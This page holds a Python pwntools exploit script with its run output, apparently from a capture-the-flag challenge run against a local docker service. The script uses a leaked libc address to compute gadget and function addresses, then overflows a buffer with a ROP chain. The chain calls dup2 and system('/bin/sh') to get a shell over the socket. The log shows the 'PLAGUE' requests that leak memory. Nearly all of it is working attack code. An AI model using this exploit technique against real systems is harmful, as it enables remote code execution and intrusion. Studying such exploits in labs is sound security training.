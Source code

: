 ```python

# Extract the leaked libc address and adjust it
leak = u64(data.split(b": ")[1][9:17])
print(f"Raw leaked libc address: {hex(leak)}")
leak = leak << 8  # Adjust the leaked address
print(f"Leaked libc address (adjusted): {hex(leak)}")

# Calculate libc base and other function/gadget addresses
libc = ELF('./libc-2.31.so')
libc.address = leak - 2018048  # Calculate the libc base address
system_addr = libc.symbols['system']
pop_rdi = libc.address + 0x0000000000023b6a
pop_rsi = libc.address + 0x000000000002601f
ret = libc.address + 0x0000000000022679
binsh = next(libc.search(b'/bin/sh'))
dup2 = libc.symbols['dup2']

# Print calculated addresses for debugging
print(f"system() address: {hex(system_addr)}")
print(f"pop_rdi gadget address: {hex(pop_rdi)}")
print(f"pop_rsi gadget address: {hex(pop_rsi)}")
print(f"ret gadget address: {hex(ret)}")
print(f"'/bin/sh' string address: {hex(binsh)}")
print(f"dup2 function address: {hex(dup2)}")

# Establish a connection and prepare for payload delivery
offset = 2127  # Buffer offset to control return address
io = get_connection()
io.send(b'VIEW me 1.0\r\n')

# Pause before sending the payload for manual intervention or review
input("Press any key to send the payload...")

# Construct and send the payload for exploitation
payload = flat(
    b'A' * offset, pop_rdi, 0x6, pop_rsi, 0x0, dup2,
    pop_rdi, 0x6, pop_rsi, 0x1, dup2,
    pop_rdi, binsh, ret, system_addr  # Craft the final ROP chain to spawn a shell
)
io.send(payload + b'\r\n\r\n')
io.interactive()  # Switch to interactive mode after sending the payload
io.close()  # Close the connection after exploitation
```

Don't forget to run the docker build and have it running locally in your environment. 

```
Sending payload:
b'PLAGUE blah blah\r\nContent-Length: 1000\r\nPlague-Target: blah\r\n\r\n\x00'
Sending payload:
b'PLAGUE blah blah\r\nContent-Length: 64\r\n\r\n\r\n\x00'
Received data:  b'Randomising a target competitor, as you wish...\nNo such competitor blah exists. They may have fallen before you tried to plague them. Attempted plague: \r\n\x00W\x12\x7f\x00\x00\xe0\x1b2W\x12\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n'
Raw leaked libc address: 0x7f1257321b
Leaked libc address (adjusted): 0x7f1257321b00
system() address: 0x7f1257187290
pop_rdi gadget address: 0x7f1257158b6a
pop_rsi gadget address: 0x7f125715b01f
ret gadget address: 0x7f1257157679
'/bin/sh' string address: 0x7f12572e95bd
dup2 function address: 0x7f1257243ae0
```